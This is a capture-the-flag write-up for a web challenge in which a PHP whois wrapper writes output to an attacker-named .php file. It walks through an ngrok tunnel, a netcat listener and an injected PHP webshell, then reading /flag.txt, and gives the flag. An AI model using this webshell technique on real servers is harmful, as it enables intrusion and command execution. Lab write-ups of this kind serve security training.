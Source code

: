 # domain_info

#### Category: Web Exploitation

#### Difficulty: Easy

#### Type: White Box

#### Description: Our team found an suspicious server which allows dns queries, find out how to exploit it. Ngrok could be helpful! Flag is : `/flag.txt`

#### Author: skyv3il

#### Files: [challenge.zip](https://github.com/emperorpenguincat/Public-Writeups/blob/main/UniVsThreats%20CTF%202025/domain_info/challenge.zip)

#### Preview:
![image](https://github.com/user-attachments/assets/dc750e76-388a-4a5b-b5c9-af43c96b95ff)

## Solution
<details>

The web-based challenge gave us a PHP source code and a webpage that had similar features to a WHOIS website. Firstly, we use simple queries to test out the web response to understand its behaviour.

![image](https://github.com/user-attachments/assets/7a2594fa-fe26-4256-9c65-0fc537586de7)

As we can see, a randomly generated filename containing the query response is kept in the `/uploads/` directory, and the website allows us to specify any file type extension we want to.

![image](https://github.com/user-attachments/assets/4003346f-4e69-40c1-afbf-4b83d0678f85)

However, the file's response has no relevant information, so let's examine the source code to identify the website's potential vulnerabilities.

### Source Code (PHP)

```php
<?php
function cleanUploads($path, $minutes = 2) {
    foreach (glob($path . "/*") as $file) {
        if (is_file($file) && (time() - filemtime($file)) > ($minutes * 60)) {
            unlink($file);
        }
    }
}

function randomString($length = 6) {
    return substr(str_shuffle("abcdefghijklmnopqrstuvwxyz0123456789"), 0, $length);
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $host = $_POST['host'];
    $port = $_POST['port'];
    $query = $_POST['query'];
    $savefile = $_POST['savefile'];

    // Basic anti-command injection filters
    foreach ([$host, $port, $query, $savefile] as $input) {
        if (preg_match('/[;&|`$()<>]/', $input)) {
            die("<p style='color:red;'>❌ Command Injection Detected!</p>");
        }
    }

    // Extra simple validation
    if (!filter_var($host, FILTER_VALIDATE_IP) && !filter_var($host, FILTER_VALIDATE_DOMAIN)) {
        die("<p style='color:red;'>❌ Invalid Hostname</p>");
    }

    // Safe escaping
    $host = escapeshellarg($host);
    $port = escapeshellarg($port);
    $query = escapeshellarg($query);

    // Create uploads folder if not exists
    $uploadDir = __DIR__ . '/uploads';
    if (!is_dir($uploadDir)) {
        mkdir($uploadDir, 0755, true);
    }

    // Cleanup old files
    cleanUploads($uploadDir, 2); // Delete files older than 2 minutes

    // Randomize file name
    if (empty($savefile)) {
        $savefile = "output.txt";
    }
    $randomPrefix = randomString();
    $finalName = $randomPrefix . "_" . basename($savefile);
    $savepath = $uploadDir . '/' . $finalName;

    // Execute
    $command = "whois -h " . $host . " -p " . $port . " " . $query  . " >  " . escapeshellarg($savepath);
    system($command);
    echo "Command: <pre>" . htmlspecialchars($command) . "</pre>";
    echo "<h2>✅ Whois Executed. Saved in:</h2>";
    echo "<pre>/uploads/" . htmlspecialchars($finalName) . "</pre>";
    echo "<p><a style='color:#00ffea;' href='/uploads/" . htmlspecialchars($finalName) . "' target='_blank'>Click here to view your file</a></p>";
}
?>
```

Based on the provided source code, we can observed that it prevents simple command injection by blacklisting shell characters using `preg_match()` and `escapeshellarg()` function to execute shell commands securely so direct command injection will be difficult. It also uses `filter_var()` to validate the host and variable `$command` where the query will be executed inside the `system()` function. Since the website accepts host and port, we can establish a simple reverse shell like this: 

#### Set up a ngrok TCP tunnel

*Note: To create TCP tunneling using ngrok, it is required to fill credit card info on your account but don't worry. It won't charged you.*

`ngrok tcp 1337`

Then, the ngrok application will assign us a random host IP address and port to which we can connect later.

#### Set up a netcat listener

`nc -lvnp 1337`

Before submitting the request, we need to configure the listener so that when the victim executes the query, it connects to our host.

#### Fill up the host and port provided by ngrok

We can send the request after completing the form, which looks like this. Ensure the file type is a `.php` so that the php script which will be injected later on can be recognized.

![image](https://github.com/user-attachments/assets/965a1089-0260-4c5d-b0c5-08125f58bb59)

When the request has been sent, the netcat connection will be established. We can see that string "test" were displayed which we specified earlier indicates that the connection is successful. 

![image](https://github.com/user-attachments/assets/231f603d-5fb5-4bbb-8fa6-a1b2c6e1341d)

Then, we can inject a simple PHP webshell: `<?php system($_GET['cmd'];)?>`. The webshell will allow us to use UNIX commands on the cmd parameter.

![image](https://github.com/user-attachments/assets/42a50d9d-df3e-4a2b-8ed9-cca4358eb3a0)

After successfully injected the webshell, we can access the file to view the output.

![image](https://github.com/user-attachments/assets/7d7d94fc-3833-4aec-a8c4-c692e2a4a324)

The php script's output indicated an error regarding the null argument because we did not specify any commands in the `?cmd` parameter.  This shows that the command was successfully injected.

![image](https://github.com/user-attachments/assets/d31e6ea9-1e77-40e4-878a-14a1b37dbbb1)

We may now use UNIX commands in the `?cmd` argument and directory listing command such as `ls` to display the files on the server.  Although the challenge stated that the flag is stored in `/flag.txt`, employing this approach may provide greater flexibility and efficiency for future challenges in which the filename or path is not specified.

![image](https://github.com/user-attachments/assets/a08d6ed9-c5e4-4217-8a89-6f9b90c4068f)

Then, for the next steps, we can simply access the `/flag.txt` file to acquire the flag for the challenge.

![image](https://github.com/user-attachments/assets/bcf6fbc3-7431-45d7-a3c1-dca89b564344)

#### Flag
> UVT{M4l1c10us_Wh0_1s_C0mmand_4nd_upl0ad}

</details>
